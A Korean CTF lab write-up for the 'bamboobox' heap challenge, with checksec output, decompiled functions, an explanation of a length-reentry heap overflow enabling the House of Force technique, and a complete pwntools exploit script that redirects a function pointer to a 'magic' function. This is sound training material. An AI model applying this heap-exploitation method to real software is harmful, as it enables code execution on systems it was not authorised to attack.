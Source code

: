 # 문제
***

bamboobox 바이너리의 checksec 결과는 다음과 같다. 
```
Arch:     amd64-64-little
RELRO:    Partial RELRO
Stack:    Canary found
NX:       NX enabled
PIE:      No PIE (0x400000)
```

file 명령어의 결과는 다음과 같다.
```
bamboobox: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=595428ebf89c9bf7b914dd1d2501af50d47bbbe1, not stripped
```

바이너리 코드

__main()__
```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
...
  v3 = malloc(0x10uLL);
  *v3 = hello_message;
  v3[1] = goodbye_message;
  ((void (__fastcall *)(signed __int64, _QWORD))*v3)(16LL, 0LL);
  while ( 1 )
  {
    menu();
    read(0, &buf, 8uLL);
    switch ( atoi(&buf) )
    {
      case 1:
        show_item();
        break;
      case 2:
        add_item();
        break;
      case 3:
        change_item();
        break;
      case 4:
        remove_item();
        break;
      case 5:
        ((void (__fastcall *)(char *, char *))v3[1])(&buf, &buf);
        exit(0);
        return;
      default:
        puts("invaild choice!!!");
        break;
    }
  }
}
```

__add_item()__ 
```c
__int64 add_item()
{
...
 
  else
  {
    printf("Please enter the length of item name:");
    read(0, &buf, 8uLL);
    v2 = atoi(&buf);
    if ( !v2 )
    {
      puts("invaild length");
      return 0LL;
    }
    for ( i = 0; i <= 99; ++i )
    {
      if ( !qword_6020C8[2 * i] )
      {
        *((_DWORD *)&itemlist + 4 * i) = v2;
        qword_6020C8[2 * i] = malloc(v2);
        printf("Please enter the name of item:");
        *(_BYTE *)(qword_6020C8[2 * i] + (signed int)read(0, (void *)qword_6020C8[2 * i], v2)) = 0;
        ++num;
        return 0LL;
      }
    }
  }
  return 0LL;
}
```

__change_item()__
```c
unsigned __int64 change_item()
{
...
  if ( num )
  {
    printf("Please enter the index of item:");
    read(0, &buf, 8uLL);
    v2 = atoi(&buf);
    if ( qword_6020C8[2 * v2] )
    {
      printf("Please enter the length of item name:", &buf);
      read(0, &nptr, 8uLL);
      v0 = atoi(&nptr);
      printf("Please enter the new name of the item:", &nptr);
      *(_BYTE *)(qword_6020C8[2 * v2] + (signed int)read(0, (void *)qword_6020C8[2 * v2], v0)) = 0;
    }
    else
    {
      puts("invaild index");
    }
  }
  else
  {
    puts("No item in the box");
  }
  return __readfsqword(0x28u) ^ v5;
}
```

__add_item()__ 함수에서는 할당받을 chunk의 크기를 입력 받고 해당 chunk에 item 이름을 입력 받는다. (chunk의 크기 만큼 문자열을 입력할 수 있다.) <br/>
itemlist는 chunk의 크기 (8byte), chunk의 주소 (8byte)로 구성된다. <br/><br/>
__change_item()__ 함수에서는 선택한 itemlist 항목의 item 이름을 변경한다. 그런데 이 때 입력 받을 문자열의 길이를 다시 입력으로 받는다. 이를 통해서 top chunk의 size 영역을 overwrite 할 수 있다. (__the house of force__ 공격이 가능) 

## exploit 방법
1. __change_item()__ 함수를 통해서 top chunk의 size 영역에 0xffffffffffffffff을 overwrite 한다.
2. __add_item()__ 함수를 통해서 -(새로 할당될 chunk의 주소 - (__main()__ 함수에서 v3에 할당된 chunk의 주소 - 16) ) 크기 만큼 chunk를 할당한다.
3. __add_item()__ 함수를 통해서 16 바이트 크기의 chunk를 할당하면 v3 영역이 할당 된다.
4. __change_item()__ 함수를 통해서 v3[1]을 magic 함수의 주소로 바꾼 후 v3[1]을 호출한다.


__주의할 점1__ <br/>
메모리 구조는 다음과 같다.
```
------------------
Not allocated
------------------
Heap base
------------------
Topchunk
------------------
```
the house of force 공격을 할 때 매우 큰 크기의 chunk를 할당할 때 top chunk의 size, prev_size 같은 것들이 Not allocated 영역 (write 권한이 없는 영역일 때)에 write 되지 않도록 크기를 잘 계산하자. <br/><br/>

__주의할 점2__ <br/>
the house of force 공격을 할 때 매우 큰 크기의 chunk를 할당한 이후에 top chunk의 크기가 적절히 남도록 주의하자. <br/>
예를 들어서 큰 할당 이후 top chunk가 0x38 남았을 때 내가 0x20 만큼 할당받으려고 하면 top chunk가 너무 조금 남아서 top chunk를 확장하려고 하는데 이때 malloc에서 sigabrt 에러가 발생한다. (내가 top chunk에 이상한 짓을 한 이후에 top chunk를 확장하려고 하는 상황에서 뭔가가 꼬이는 듯)

# 풀이
***
```
#!/usr/bin/python

from pwn import *

def add_item(length,pay):
	p.recvuntil("choice:")
	p.send("2")
	p.recvuntil("name:")
	p.send(length)
	p.recvuntil("item:")
	p.send(pay)

def chan_item(index,length,pay):
	p.recvuntil("choice")
	p.send("3")
	p.recvuntil("item:")
	p.send(index)
	p.recvuntil("name:")
	p.send(length)
	p.recvuntil("item:")
	p.send(pay)

file_path="/home/sungyun/round4/lab11/bamboobox"

p=process(file_path)

add_item("16","house_of_force")
add_item("16","hmm..")

pay="A"*16+"\x00"*8
pay+="\xff\xff\xff\xff\xff\xff\xff\xff"

chan_item("1","32",pay)

add_item("-112","hi_3ffr3s")
add_item("16","exploit!")

pay2="A"*8
pay2+=p64(0x400d49) #magic

chan_item("3","16",pay2)

p.recvuntil("choice:")
p.send("5")

p.interactive()
```


